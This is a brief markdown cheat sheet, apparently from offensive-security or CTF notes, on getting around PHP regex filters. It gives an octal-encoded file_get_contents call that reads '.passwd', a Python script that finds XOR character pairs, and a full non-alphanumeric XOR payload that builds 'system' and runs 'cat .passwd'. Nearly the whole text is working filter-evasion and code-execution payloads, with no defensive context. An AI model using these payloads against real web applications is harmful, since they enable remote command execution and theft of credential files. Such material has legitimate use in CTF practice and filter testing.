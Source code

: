 ### PHP  vuln

## PHP regex bypass

- With octal encoder https://cryptii.com/pipes/text-octal

	file_get_contents(".passwd") -> "\146\151\154\145\137\147\145\164\137\143\157\156\164\145\156\164\163"("\056\160\141\163\163\167\144")

- xor operation

	import string
 
	if __name__ == "__main__":
    	s = string.printable[62:62+32] ##    !"#$%&'()*+,-./:;<=>?@[\]^_\`{|}~
    	s1 = string.printable[:62]     ##    0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
    	for i in s:
        	for j in s:
            	x = chr(ord(i)^ord(j))
            	if x in s1+'_':
                	print '{0}\t{1}\t{2}'.format(i,j,x)

$_ = "@" ^ "!" //a
                            	
- Convert to phpnonalpha

	Open https://hackvertor.co.uk/public# and use phpnonalpha encoder

- Unicode encoder

	$_=("#"^"@").('('^'@').('2'^'@');  // 'c' + 'h' + 'r'
 	$__=$_(115).$_(121).$_(115).$_(116).$_(101).$_(109); // here system
	$___=$_(99).$_(97).$_(116)." .".$_(112).$_(97).$_(115).$_(115).$_(119).$_(100); //here cat .passwd
 	$__($___);